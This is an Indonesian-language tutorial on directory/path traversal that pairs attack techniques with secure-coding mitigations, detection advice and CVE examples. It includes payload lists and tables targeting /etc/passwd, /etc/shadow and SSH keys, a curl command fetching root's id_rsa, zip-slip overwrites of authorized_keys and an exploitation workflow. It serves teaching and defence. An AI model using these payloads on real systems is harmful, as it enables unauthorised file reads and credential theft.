


# Apa itu Directory Traversal

Directory Traversal atau Path Traversal adalah jenis kerentanan *CWE-22 (Improper Limitation of a Pathname to a Restricted Directory)* yang memungkinkan penyerang mengakses berkas di luar direktori yang dimaksudkan oleh aplikasi. Serangan ini sering disebut pula “dot-dot-slash”, *directory climbing*, atau *path traversal*. OWASP mendefinisikan bahwa dengan memanipulasi variabel jalur file (menyisipkan urutan `../`, `..\` atau path absolut), penyerang berpotensi mengakses file sistem secara arbitrer, termasuk kode sumber aplikasi, file konfigurasi, atau file sistem kritis. Imperva juga menjelaskan bahwa directory traversal membolehkan penyerang mengakses direktori terbatas di luar *web root*, menampilkan atau menyalin data sensitif di server yang tidak seharusnya terlihat oleh aplikasi.

Model ancaman (threat model) mencakup situasi di mana aplikasi web menerima input jalur file dari pengguna tanpa validasi/normalisasi yang ketat. Misalnya, sebuah endpoint download `download.php?file=...` atau script penampil gambar `view.php?img=...` yang langsung menggunakan input untuk memuat berkas. Jika tidak dikendalikan, input dapat disertai `../` dan variasinya untuk menelusuri direktori di atas *web root*. Dampaknya termasuk:
- **Pembocoran Informasi**: Penyerang membaca file sensitif (mis. `/etc/passwd`, file konfigurasi DB).
- **Penyisipan/Korupsi File**: Mis. file log atau kunci SSH dapat ditimpakan jika jalur dapat ditulis (contoh *zip slip*, serangan isi ZIP dengan nama file `../../../..../root/.ssh/authorized_keys` sehingga berkas otoritas di-OVERRIDE).
- **Dampak Lain**: Akses file rahasia dan bukti kompromi. Meskipun sistem operasi mengendalikan izin (mis. file terkunci di Windows), kelemahan ini melanggar kebijakan aplikasi.

Directory Traversal sering muncul di endpoint yang memperbolehkan akses file dinamis: misalnya parameter `file`/`path` pada CMS, sistem file download, penampil gambar, bahkan endpoint API (GraphQL atau REST yang memberikan path). Variasi seringkali mencakup **Unix vs Windows** (`../` vs `..\`), **URL/Unicode encoding** (untuk menghindari filter, seperti `%2e%2e%2f` untuk `../`), **null byte injection** (legacy) hingga **PHP stream wrappers** (`php://filter`, `php://input`) yang memperluas kemampuan baca berkas.

**Contoh Konteks Rentan:** Aplikasi yang meng-include file berdasar parameter URL. Misalnya di PHP: 

```php
<?php
  $template = "/var/www/html/templates/" . $_GET['page'];
  include($template);
?>
``` 

Jika `page` tidak dikontrol, pemanggilan `http://site/vuln.php?page=../../../../etc/passwd` dapat menampilkan isi `/etc/passwd`. Contoh ilustrasi ini di Imperva menunjukkan bagaimana menyisipkan `../` pada parameter gambar (`logo.png`) memungkinkan melihat file sistem sensitif. 

## Teknik Eksploitasi dan Payload

Eksploitasi directory traversal bergantung pada jenis endpoint dan lingkungan. Teknik umum meliputi:

- **Traversing Relatif (`../` atau `..\`)**: Menyisipkan urutan `../` (atau `..\` di Windows) untuk naik direktori. Contoh payload sederhana:  
  - Linux/Unix: `../../etc/passwd` (naik dua level, kemudian /etc/passwd).  
  - Windows: `..\..\windows\system32\drivers\etc\hosts` (naik dua level di drive saat ini).  
  OWASP menyebut sekuens “dot-dot-slash” dan variasinya sebagai metode utama. Misalnya, mengakses `/etc/passwd` melalui `?file=../../../../etc/passwd` berhasil jika direktori asal berada di bawah root Linux.

- **Path Absolut**: Jika aplikasi membolehkan path absolut (contoh: nilai param dimulai dengan `/` atau `C:\`), penyerang bisa langsung menyebut file lengkap. Contohnya: `?file=/etc/passwd` (Linux) atau `?file=C:\Windows\System32\config\sam` (Windows). Penggunaan path absolut tergantung kebijakan server.

- **Karakter Separator OS-spesifik**:  
  - *Unix/Linux:* akar sistem adalah `/` dengan separator `/`. Root direktori aplikasi biasanya sub direktori, jadi `../` naik satu level.  
  - *Windows:* sistem menggunakan huruf drive (misal `C:\`) dengan separator `\` atau `/`. Windows juga memperbolehkan penamaan file yang diakhiri dengan `.` atau `\` ekstra. Contohnya payload Windows: `..\..\Windows\WinSxS\` atau `..\..\..\boot.ini`. Pada Windows, traversal hanya bisa dalam partisi yang sama dengan *web root* (misal `C:\`).  
  OWASP mencatat perbedaan ini: *“Root directory: ‘/’ on UNIX (sep ‘/’), root: `<drive>:\` on Windows (sep `\` atau `/`)*. Misalnya `..\..\windows\system32\drivers\etc\hosts` (Windows) atau `/etc/shadow` (Linux) bisa dicoba sebagai payload.

- **URL Encoding dan Variasi**: Banyak filter atau WAF mendeteksi literal `../`. Solusinya menggunakan encoding:  
  - **Percent-encoding satu kali:** `%2e%2e%2f` mewakili `../`. Contohnya: `%2e%2e/%2e%2e/%2e%2e/etc/passwd` (setara `../../etc/passwd`).  
  - **Double encoding:** Encoding `%` itu sendiri. Misal `%252e%252e%255c` didekode dua kali menjadi `..\`. Teknik ini sering dipakai untuk melewati filter yang hanya men-decode sekali.  
  - **UTF-8/Unicode:** Penggunaan karakter multibita seperti `%c0%af` untuk `/` (UTF-8 untuk backslash). OWASP mencontohkan: `..%c0%af` yang dapat berefek sama dengan `../` tergantung pada decoding server.  
  Contoh di Ghost (Ghost blog platform): penyerang menggunakan `/assets/built%2F..%2F..%2F/` (URL-encoded `../`) dalam path tema untuk membaca file tema arbitrer.

- **Null Byte Injection (Legacy)**: Pada beberapa bahasa lama (mis. PHP <5.3, Java lama), `%00` (null byte) digunakan untuk memotong string. Contohnya: parameter `file=secret.doc%00.pdf` membuat aplikasi melihat `secret.doc` (memotong sisanya), tetapi sistem file Unix membacanya sebagai `.doc`. Dengan begitu, filter ekstensi `.pdf` dapat dilewati untuk membuka `.doc`. OWASP mencontohkan payload `secret.doc%00.pdf` – aplikasi Java hanya melihat “.pdf”, tetapi OS melihat file “.doc”. Teknik ini sudah sebagian besar diperbaiki di runtime modern, tetapi menjadi contoh penting untuk sejarah mitigasi.

- **PHP Stream Wrappers**: Jika aplikasi PHP menggunakan fungsi `include`, `file_get_contents`, atau `fopen` tanpa membatasi skema URI, penyerang dapat menyuntikkan wrapper PHP seperti `php://filter`, `data://`, atau `php://input` untuk membaca/memodifikasi data. Misalnya, `php://filter/read=convert.base64-encode/resource=../../etc/passwd` akan membaca `/etc/passwd`, meng-encode hasilnya dengan Base64, dan mengirimnya, sehingga isi file dapat diambil tanpa error karakter. Dalam tulisan RouteZero, dijelaskan bagaimana menyisipkan `php://filter` di parameter `language` pada URL dapat menampilkan konfigurasi PHP dalam Base64. Pentingnya teknik ini adalah bahwa meskipun filter ekstensi mencegah `../../etc/passwd`, menambahkan `php://filter/…` memaksa interpretasi lain yang memberikan data file. Selain `php://filter`, wrapper `php://input` dapat membiarkan penyisipan kode apabila `allow_url_include` aktif; mekanisme ini terkait LFI yang lebih luas dan biasanya memerlukan langkah tambahan (mis. menulis payload melalui `allow_url_include`).

- **Zip Slip (Arsip ZIP)**: Serangan path traversal juga muncul pada ekstraksi arsip. Jika aplikasi mengekstrak file ZIP tanpa memvalidasi nama entri, file yang namanya mengandung `../` akan diekstrak keluar dari folder target. Contoh: sebuah ZIP yang berisi entri `"../../../../../../root/.ssh/authorized_keys"`—saat diekstrak oleh aplikasi tanpa pemeriksaan—akan menimpa file `/root/.ssh/authorized_keys` di sistem. Teknik ini disebut *zip slip* dan memungkinkan penyerang menulis (overwrite) berkas arbitrer dengan isi dari arsip, yang pada gilirannya dapat berujung pada eksekusi kode jika berkas yang ditimpa krusial.

- **Inklusi File Lokal vs Jarak Jauh (LFI/RFI)**: Directory traversal menyerupai LFI (Local File Inclusion) tetapi fokusnya pada akses file, bukan mengeksekusi kode. Namun, jika aplikasi PHP memanggil `include` dan rentan LFI, perbedaan hanya pada tujuan: LFI mengeksekusi file, sedangkan directory traversal hanya membaca. Jika konfigurasi memungkinkan `allow_url_include`, sekaligus traversal, RFI (Remote File Inclusion) pun dapat terjadi. Pernyataan OWASP membedakan: LFI memungkinkan eksekusi skrip di direktori lokal, sementara directory traversal sekadar membaca file di luar *web root*.

### Contoh Payload

Beberapa contoh payload yang sering diuji (terutama di endpoint PHP/REST) termasuk:

- `../../etc/passwd` (Linux, baca passwd)  
- `../../../boot.ini` (Windows, baca konfigurasi boot)  
- `../../../../windows/system32/drivers/etc/hosts` (Windows, baca hosts)  
- `..%2F..%2Fetc%2Fpasswd` (variasi URL-encoded)  
- `%252e%252e%255cwindows%255cwin.ini` (double-encoded)  
- `/%2e%2e/%2e%2e/etc/shadow` (encoded plus absolute)  
- `php://filter/read=convert.base64-encode/resource=../../etc/passwd` (wrapper PHP)  
- `file=secret.txt%00.php` (null byte)  
- `file=../../../app/uploads/../../../etc/passwd` (kombinasi dua `..`)  
- Endpoints spesifik: misalnya `/download?fileName=../../config.yaml`, atau `image.php?image=..%5c..%5csecret.jpg`. 

Contoh HTTP sederhana: 

```http
GET /download.php?file=../../../../etc/passwd HTTP/1.1
Host: victim.site
```

dapat mengembalikan isi `/etc/passwd` jika server rentan. Sebagai ilustrasi, Snyk mendemonstrasikan curl: 

```bash
curl "http://localhost:8080/public/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/root/.ssh/id_rsa"
``` 
yang berhasil mengunduh private key root.  

Tabel berikut membandingkan contoh payload berdasarkan OS/konteks:

| Konteks          | Contoh Payload                               | Catatan                                     |
|------------------|----------------------------------------------|---------------------------------------------|
| **Linux/Unix**   | `../../etc/passwd`<br>`/etc/shadow`          | Traversal naik level (`../`) atau absolut.  |
| **Windows**      | `..\..\windows\system32\drivers\etc\hosts`<br>`C:\Windows\win.ini` | Separator `\`/`/`, awalan drive letter.    |
| **URL-encoding** | `%2e%2e/%2e%2e/etc/passwd`<br>`..%2F..%2Fboot.ini` | `%2e` = `.`, `%2F` = `/`.                   |
| **Double-encode**| `%252e%252e%255cetc%255cpasswd`             | Didekode dua kali → `..\etc\passwd`.        |
| **Null byte**    | `secret.txt%00.php`                          | `%00` memotong string; bypass filter `.php`. |
| **PHP Wrappers** | `php://filter/read=convert.base64-encode/resource=../../etc/passwd` | Membaca file via filter Base64. |
| **ZIP Slip**     | `../../../../../../root/.ssh/authorized_keys` (di dalam .zip) | Ekstrak arsip menimpa file sistem. |

## Workflow Eksploitasi

Berikut adalah alur kerja eksploitasi path traversal yang khas:



1. **Reconnaissance**: Kumpulkan informasi target (endpoints, bahasa, struktur URL). Identifikasi halaman/form yang mengambil nama file dari pengguna (misalnya `?file=`, `?path=`, parameter JSON).  
2. **Identifikasi Entry Point**: Tentukan variabel/parameter yang dipakai untuk mengakses file. Bisa di URL (`GET`), formulir (`POST`), header (mis. `fileName` pada multipart), atau JSON body.  
3. **Pengujian Payload Awal**: Kirim payload dasar seperti `../` secara bertahap. Contoh: `?file=../etc/passwd` lalu `../../etc/passwd`, dsb. Cek respon HTTP (status code, panjang konten, isi). Jika terlihat isi file Unix misalnya, berhasil.  
4. **Analisis Respon**:  
   - **Berhasil (200 OK + Konten)**: Jika server mengembalikan isi berkas (misalnya terlihat konten `/etc/passwd`), eksploitasi berhasil. Catat file apa yang dibaca.  
   - **Gagal/Error**: Jika muncul 400/404/403 atau konten kosong, teruskan dengan bypass lain (encoding).  
5. **Bypass Filter**: Jika payload standar diblok, coba variasi: URL-encode (`%2e%2e`), double-encode (`%252e`), UTF-8 codes, null byte (`%00`), variasi huruf (kurangi/double slash), dll. Juga coba wrapper PHP jika relevan.  
6. **Enumerasi File dan Eksfiltrasi**: Setelah akses berhasil, navigasi struktur file (misalnya mulai dari direktori umum: `/etc/`, `/var/www/`, home, dsb). Baca file yang mengandung data sensitif (DB config, kunci SSH, kredensial) untuk eksfiltrasi.  
7. **Iterasi dan Opsi Lanjut**: Jika satu endpoint punya proteksi, cari endpoint lain (mis. permintaan gambar, log error, file download). Cek juga endpoint RFI/LFI terkait atau API lainnya.

Langkah-langkah ini sebaiknya diulangi secara sistematis. Diagram di atas merangkum alur tersebut.

## Teknik Analisis & Pendeteksian

**Pengujian Manual dan Otomatis:** Penguji manual sering menggunakan Proksi HTTP (Burp Suite, OWASP ZAP) untuk mencoba payload di berbagai parameter. Burp Intruder atau Repeater sangat berguna untuk mengirim banyak varian payload (`../`, `%2e%2e/`, dll). Fuzzer seperti *ffuf*, *wfuzz*, atau *Intruder* dapat digunakan dengan wordlist yang berisi banyak payload traversal (mis. daftar berisi `'../'`, `'../../'`, dll). Terkadang alat spesifik tersedia: misalnya *DotDotPwn* (dengan ratusan payload traversal), *DirBuster/Dirsearch* (untuk mencari endpoint tersembunyi). Nikto juga memiliki plugin deteksi traversal. Sebagai contoh, Imperva menyebutkan: “Burp Suite, OWASP ZAP, Nikto, DotDotPwn, Metasploit, dan DirBuster” sebagai tool yang umum dipakai untuk menemukan kelemahan ini.

**Analisis Log:** Lihat log server (Apache, nginx, IIS) untuk permintaan aneh. Cari pola seperti `GET /.../../../etc/passwd` atau parameter dengan `%2e%2e`. Banyak sistem IDS/IPS/WAF memiliki signature untuk deteksi path traversal. Misalnya, signature berbasis pola `'../'` atau `'%2e%2e'` akan memicu peringatan. Imperva WAF mampu mengenali pola tersebut secara *signature-based* dan mem-block serangan sebelum dieksekusi. Log penting lain meliputi log aplikasi (jika ada), yang mungkin mencatat kegagalan *file not found* aneh di direktori sistem.

**Indikator Respons/Trafik:** Perhatikan perbedaan tanggapan. Ciri sukses biasanya berupa status 200 dengan konten (size besar, teks berisi kombinasi username/system). Gagal mungkin menghasilkan 404/403 atau halaman error. Jika server men-decode payload, mungkin terlihat redirect atau perubahan jalur. Dalam beberapa kasus *blind*, perbedaan waktu respon atau panjang konten bisa mengindikasikan keberhasilan (misalnya mengakses file besar vs file yang tidak ada). Namun umumnya kita lihat konten eksplisit karena banyak LFI dibangun untuk menampilkan isi file.

**Safe Lab Testing:** Lakukan pengujian di lingkungan terisolasi (misalnya Docker/Vagrant) dengan aplikasi rentan. Gunakan image DVWA (Damn Vulnerable Web App), OWASP WebGoat, Mutillidae, JuiceShop, atau WordPress dengan plugin vulnerable (Elementor PDF Gen, dll). Jangan uji di sistem produksi tanpa izin. Gunakan jaringan lokal atau VPN untuk mencegah kebocoran data. Simulasikan pengguna dan inspektur (IDS) untuk melihat semua trafik. 

## Mitigasi dan Praktik Secure Coding

Beberapa langkah mitigasi utama:

- **Kanalisasi & Normalisasi Path:** Sebelum menggunakan input sebagai path, normalisasikan dengan fungsi bawaan. Misalnya di PHP gunakan [`realpath()`](https://www.php.net/manual/en/function.realpath.php) atau di Java [`Path.normalize()`], di Node.js [`path.normalize()`], di Python [`os.path.realpath()` atau `os.path.normpath()`] untuk menghilangkan `../` atau symlink. Setelah itu, verifikasi bahwa path hasil normalisasi tetap berada di dalam direktori yang diizinkan. Contoh PHP:

  ```php
  <?php
  $base = '/var/www/html/files/';
  $user = $_GET['file'];
  $path = realpath($base . $user);
  if ($path && strpos($path, $base) === 0) {
      readfile($path);
  } else {
      header("HTTP/1.1 400 Bad Request");
      echo "Invalid path";
  }
  ?>
  ```
  
  Dengan ini, `realpath()` menghilangkan elemen `..`. Jika `$path` tidak dimulai dengan `$base`, kita tolak. Demikian pula di Node.js:
  
  ```js
  const path = require('path');
  const base = path.join(__dirname, 'files');
  app.get('/dl', (req,res) => {
      let file = req.query.file;
      let full = path.normalize(path.join(base, file));
      if (!full.startsWith(base)) {
          return res.status(400).send("Invalid path");
      }
      res.sendFile(full);
  });
  ```
  
  Dan di Python/Flask:
  
  ```python
  import os
  from flask import Flask, request, abort, send_from_directory
  app = Flask(__name__)
  BASE = '/var/www/files'
  @app.route('/dl')
  def download():
      f = request.args.get('file')
      fp = os.path.realpath(os.path.join(BASE, f))
      if not fp.startswith(os.path.realpath(BASE)):
          abort(400)
      return send_from_directory(BASE, f)
  ```
  
  Teknik ini sesuai saran mitigasi OWASP dan CWE: gunakan normalisasi bawaan untuk menghilangkan `..`. 

- **Allow-List (Validasi “Known Good”):** Batasi input hanya pada nilai yang diizinkan. Misalnya jika hanya beberapa file yang boleh diakses, masukkan nama-nama file yang valid ke array *allow-list*. Contoh sederhana di PHP:

  ```php
  <?php
  $allowed = ['logo.png','banner.jpg','doc.pdf'];
  $file = $_GET['file'];
  if (in_array($file, $allowed)) {
      readfile("/var/www/html/files/$file");
  } else {
      echo "File not permitted.";
  }
  ?>
  ```
  
  Dengan cara ini, input apapun yang tidak persis di dalam daftar ditolak. Aqua Security menekankan *whitelisting* sebagai strategi utama, menolak semua yang tidak cocok spesifikasi. 

- **Hindari Input Langsung pada File API:** Usahakan tidak memasukkan input pengguna langsung ke fungsi file. Misalnya, daripada `include($_GET['page'])`, gunakan mapping ID ke file tetap. Atau batasi variabel `page` hanya pada nama tema yang dicetus, bukan path. Jika harus pakai input, pisahkan entri tetap (prefix/suffix) dari input dinamis.

- **Pemisahan Directory (Chroot/Sandbox):** Jalankan aplikasi dalam lingkungan terbatas. Misalnya gunakan *chroot jail*, AppArmor/SELinux, kontainer, atau *Java SecurityManager* untuk membatasi direktori kerja. Dengan begini, meski ada `../`, sistem operasi membatasi eksplorasi di bawah root jail. Aquasec menyebut penggunaan *jail* (chroot, AppArmor) sebagai mitigasi untuk membatasi file yang dapat diakses.

- **Hak Istimewa Minimal (Least Privilege):** Pastikan proses webserver berjalan dengan akses seminimal mungkin. Jika aplikasi hanya perlu akses ke folder `files/`, jangan jalankan sebagai root atau user yang punya akses ke direktori sistem. Dengan begitu, bahkan jika traversal berhasil, kerusakan terbatas pada direktori diizinkan.

- **Penyimpanan di Luar Web Root:** Letakkan berkas sensitif (kunci, library, konfigurasi penting) di luar `public_html` atau web root. Aqua Security menyarankan agar file library atau include disimpan di luar direktori publik. Dengan cara ini, walau terjadi traversal, file di web root saja yang terekspos, sementara file admin/config di folder lain tidak tersentuh. 

- **Pengaturan Server/Framework:**  
  - Matikan *directory listing* (misal `Options -Indexes` di Apache).  
  - Batasi penggunaan *symlink* jika tidak perlu.  
  - Untuk PHP, nonaktifkan *allow_url_include* dan, jika tidak perlu, *allow_url_fopen* agar tidak bisa menggunakan `php://`/`http://` dari input pengguna.  
  - Jika menggunakan framework, manfaatkan API path yang aman (misal `File::getSecurePath()` atau `path.join()` yang otomatis menormalisasi).  

- **Sanitasi & Validasi Input:** Jika tidak ada allow-list, lakukan pemeriksaan karakter: reject input yang mengandung `../` atau karakter berbahaya. Namun, hindari hanya *block-listing* karena sering bisa dilewati dengan encoding (misal [6]). Imperva merekomendasikan “input validation” yang ketat, menolak karakter khusus seperti `../` atau `/` bila tidak diharapkan. Sementara Aqua menekankan jangan bergantung hanya pada filter karakter, melainkan melakukan decoding dan normalisasi sebelum validasi. 

- **Penanganan Error Minim:** Jangan mengungkap struktur file lewat pesan error (misalnya path lengkap di stack trace). Pesan error harus generik (misal “File not found”) agar penyerang tidak mendapatkan petunjuk direktori.

- **Pengujian dan Pemantauan:** Lakukan *code review*, audit otomatis (SAST/IAST) dan pemindaian keamanan rutin. Gunakan WAF dengan aturan terhadap path traversal. Imperva WAF menawarkan deteksi pola `../` secara otomatis. Periksa log setelah deploy; indikator seperti 404 untuk path `/etc/passwd` atau 403 di direktori aneh harus segera diinvestigasi.

## Contoh CVE Terkait

Beberapa contoh kelemahan *real-world* path traversal:

- **CVE-2023-32235 (Ghost)** – Platform blog *Ghost*. Versi sebelum 5.42.1 rentan karena folder tema statis dapat dipanggil dengan path traversal dalam URL (mis. `/assets/built%2F..%2F..%2F/`). Akibatnya, penyerang dapat membaca file apa pun di folder tema aktif. Snyk melaporkan kelemahan ini dengan skenario pencurian `id_rsa` root dengan `../` terenkode.

- **CVE-2023-46988 (ONLYOFFICE Document Server)** – *Path traversal* pada `fileExt` parameter di endpoint `/example/editor`. Penyerang remote dapat memanipulasi `fileExt` untuk menyalin berkas arbitrer dari server, mengakses file sensitif dan bahkan menimbulkan DoS. Misalnya jika `fileExt=../secret.ini`, server mungkin menyalin file di luar direktori yang dimaksud.

- **CVE-2024-9935 (Elementor PDF Generator Addon)** – Plugin WordPress (Elementor Page Builder). Fungsi `rtw_pgaepb_dwnld_pdf()` memiliki jalur relatif tidak terfilter. Konsekuensinya, penyerang *unauthenticated* bisa membaca sembarang berkas server (termasuk data rahasia) melalui traversal path. Aqua Security mendetailkan bagaimana input `..` melepas pembatas direktori, memungkinkan pembacaan berkas sistem (Relative Path Traversal) atau bahkan menggunakan path absolut.

- **CVE-2023-25652 (Git Apply)** – Git CLI (unmanaged) versi lama. Menurut Snyk, patch Git `apply --reject` dapat dieksploitasi untuk menimpa file di luar working tree dengan konten dari hunks konflik. Ini adalah contoh path traversal dalam konteks patch management; meski bukan aplikasi web, melibatkan direktori traversal akibat path file konflik.

*Prioritas* CVE di atas menunjukkan pentingnya validasi path di berbagai teknologi. Penting bagi penguji untuk mencari CVE terkait versi perangkat lunak target, karena setiap sistem (CMS, server dokumen, library file handler) mungkin memiliki kelemahan serupa.

## Deteksi & Monitoring

Untuk memantau dan mendeteksi serangan ini:

- **Signature IDS/WAF:** Cari pola `../` atau varian `%2e%2e%2f` di HTTP request. Banyak rule IPS (Snort) dan WAF (ModSecurity, Imperva) sudah menyiapkan signature deteksi path traversal. Imperva mencontohkan signature-based detection untuk direktori traversal.  
- **Anomali Respon:** Monitor 404/403 pada request yang mengandung path aneh. File seperti `/etc/passwd` yang tidak tersedia akan menimbulkan “Not Found” log, tapi jika tiba-tiba 200 di direktori berbahaya, itu red flag.  
- **Log dan Alert:** Sistem SIEM bisa diatur men-trigger alert saat menemukan pola `/\.\.\//` di log akses. Juga pantau log aplikasi jika mencatat error “file not found” atau “permission denied” pada path luar.  
- **Integrity Monitoring:** Seringkali pertahanan adalah memantau perubahan file; jika file sensitif berubah (mis. kunci SSH) secara tidak sengaja, ini bisa mengindikasikan eksfiltrasi *zip slip*.  
- **Timeout/Throttle:** Directory traversal biasanya cepat (baca satu file). Namun, untuk blind enumeration (mencoba banyak file), perbedaan waktu respon (besarnya konten, server delay saat baca file besar) bisa menjadi indikator meski jarang digunakan.

Secara keseluruhan, deteksi terbaik dicapai dengan kombinasi *preventive control* (WAF, validasi input) dan *detective control* (log, IDS). 

## Checklist Pengujian (Pentest)

Berikut tabel periksa langkah-langkah prioritas saat menguji *path traversal*:

| Langkah | Aksi Pengujian                    | Indikator Keberhasilan                    |
|--------|-----------------------------------|-------------------------------------------|
| 1. Identifikasi parameter file-path | Temukan endpoint/param yang menerima nama file atau path (contoh: `?file=`, `?path=`, `upload/filename`, rute dinamis, dll). | Titik potensial ditemukan, misalnya parameter `download` atau `view` file. |
| 2. Payload Traversal Dasar        | Kirim payload `../` increment ( `?file=..%2F..%2Fetc/passwd`) | HTTP 200 dengan konten file (`root:x:...`) atau perbedaan respon dibanding normal. |
| 3. Payload OS-spesifik           | Uji `..\windows\win.ini` (Windows) dan `/etc/shadow` (Linux) | Berhasil mengakses file sistem (Windows atau Linux) => lokasi OS target diketahui. |
| 4. Encoding Variasi              | Coba encoding (`%2e%2e`, `%2e%2e%2f`, `..%255c`) | Payload terfilter terlewati => konten file ditampilkan. |
| 5. Absolute Path                 | Coba path mutlak (mis. `/etc/passwd` atau `C:\boot.ini`) | Jika diizinkan, file langsung diakses (200 OK). |
| 6. PHP/Framework Wrappers        | (Jika PHP) Uji `php://filter`, `data://`, `php://input` | Data file ke-encode (Base64) atau eksekusi tak terduga (RCE potensial). |
| 7. Null Byte                     | `file=exploit.php%00.jpg` (dulu pada PHP) | Bypass ekstensi filter (200 OK konten file) – umumnya tidak berlaku di PHP modern. |
| 8. Log Monitoring               | Periksa log saat pengujian: cari `/../`, error file | Aktivitas mencurigakan muncul pada log server/WAF. |
| 9. Fuzzing Otomatis             | Jalankan ffuf/wfuzz/Burp Intruder dengan wordlist traversal (../, dll) | Payload baru terdeteksi yang mungkin terlewat: error 200 tak biasa, kode 500. |
| 10. Eksfiltrasi dan Lateral Move | Jika berhasil, baca berkas sensitif (`.env`, config) dan lihat data. | Data sensitif (DB cred, kunci) terlihat — tingkat risiko maksimum. |

Checklist di atas dapat diprioritaskan sesuai konteks target. Pastikan langkah eksplorasi (1–5) selesai sebelum melanjutkan bypass kompleks (6–7). 

Dan berikut tabel ringkasan payload berdasarkan konteks/OS yang dijelaskan sebelumnya:

| Sistem/Konteks    | Payload Contoh                             | Catatan                                   |
|-------------------|--------------------------------------------|-------------------------------------------|
| **Unix/Linux**    | `../../etc/passwd`<br>`../etc/shadow`      | Naik direktori (../). Endpoint file.      |
| **Windows**       | `..\..\Windows\System32\drivers\etc\hosts`<br>`..\..\boot.ini` | Separator `\`, drive fixed (C:).         |
| **URL-encoded**   | `%2e%2e/%2e%2e/etc/passwd`<br>`%2e%2e\%2e%2e\Windows` | Representasi %2e = `.`; tebakan filter.  |
| **Double-encode** | `%252e%252e%255cwindows%255cwin.ini`      | Dibaca dua kali → `..\windows\win.ini`.   |
| **PHP Wrappers**  | `php://filter/read=convert.base64-encode/resource=../../etc/passwd` | Baca file via filter Base64. |
| **Null Byte**     | `file=logo.png%00.jpg`                     | Dulu: memotong string; sekarang jarang efektif. |
| **ZIP Slip**      | (di dalam .zip) `../../../../root/.ssh/authorized_keys` | Ekstraksi ZIP menimpa file di luar target. |

Dengan checklist dan tabel ini, penguji (pentester) dapat memastikan seluruh variasi payload dan skenario telah diuji.

## Contoh Permintaan/Respon HTTP

**Contoh Eksploitasi Direktori Traversal:**

```http
GET /download.php?file=../../../../etc/passwd HTTP/1.1
Host: vulnerable.site
```

Respon server:
```http
HTTP/1.1 200 OK
Content-Type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Dalam contoh di atas, parameter `file` menyebut path relatif yang menuju `/etc/passwd`. Server yang rentan menjalankan fungsi readfile maupun include dengan path tersebut, sehingga berhasil mengembalikan isi file sistem (`/etc/passwd`).

Demikian juga, payload encoded:

```http
GET /assets/image?img=%2e%2e/%2e%2e/%2e%2e/etc/shadow HTTP/1.1
Host: target.site
```

Jika rentan, server akan mendekode `%2e` menjadi `.`, sehingga mengakses `/etc/shadow`. Berbeda respon (error atau tak ditemukan) dapat langsung memberi tahu penyerang apakah payload berhasil.

## Diagram dan Ilustrasi

Berikut adalah diagram urutan eksploitasi path traversal (menggunakan sintaks Mermaid):



Diagram ini menunjukkan bagaimana penguji mulai dengan pengumpulan informasi, lalu mengirim payload beruntun (looping) hingga suatu file berharga berhasil diakses.

Untuk pengujian laboratorium, gunakan web aplikasi rentan di atas (DVWA, JuiceShop) atau buat aplikasi dummy yang memuat file dari parameter tanpa validasi untuk mempraktikkan teknik di atas secara aman.

**Kesimpulan**: Dengan pemahaman teknik serangan, payload, dan workflow di atas—serta langkah mitigasi yang tepat—tim keamanan dapat mendeteksi dan mencegah serangan directory traversal sebelum data rahasia bocor. Sumber kredibel (OWASP, CWE, Tenable, Snyk, AquaSec) telah kami gunakan untuk memastikan ketepatan informasi. Semua referensi dianalisis untuk membentuk panduan ini.